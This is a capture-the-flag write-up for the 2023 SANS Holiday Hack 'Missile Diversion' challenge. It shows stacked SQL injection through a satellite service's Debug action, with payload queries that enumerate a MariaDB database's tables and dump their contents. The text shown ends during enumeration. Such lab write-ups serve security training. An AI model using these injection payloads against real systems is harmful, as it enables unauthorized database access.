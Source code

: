 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Missile Diversion
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Thwart Jack's evil plan by re-aiming his missile at the Sun.

### Solution
Re-utilizing the same environment from before, I used the `Consumer Test Tool` to connect to `maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory`, start the `missile-targeting-system`, and then connecting to `maltcp://10.1.1.1:1026/missile-targeting-system-Directory`. This exposes the `Debug` Action Service along with 4 Parameter Services: `PointingMode`, returning the current pointing mode, `X` and `Y`, returning the coordinates, and `Debug`, returning the last output from the `Debug` Action Service. Trying to set `X`, `Y` and `PointingMode` was not giving any result. I then tried submitting the `Debug` Action without any input and the `Debug` Parameter Service returned the string `VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204`, clearly identifying the interaction with a DB. I tested the action service for common SQL injection by using the attribute value to inject the payload, eventually finding `;[PAYLOAD]` as a resilient injection pattern. I then enumerated the tables in the database and their content

> **Query**: `; SELECT * FROM pointing_mode_to_str`  
> **Results**:  
> id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth.  
> id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. \|

> **Query**: `; SELECT * FROM user_variables`
> **Results**:  
> java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables

> **Query**: `; SELECT * FROM messaging`
> **Results**:  
> id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|  
> id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| 11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|  
> id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \|  
> id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \|  
> id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \|  
> id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|  
> id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|  
> id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|  
> id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \|  

> **Query**: `; SELECT * FROM pointing_mode`
> **Results**:  
> id: 1 \| numerical_mode: 0 \|  

> **Query**: `; SELECT * FROM target_coordinates`
> **Results**:  
> id: 1 lat: 1.14514 \| Ing: -145.262 \|  

> **Query**: `; SELECT * FROM satellite_query`
> **Results**:  
> jid: 1 | object: `........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java` | results: `import java.io.Serializable; /* Output removed to shorten report */ public class SatelliteQueryFileFolderUtility implements Serializable { /* Output removed to shorten report */`
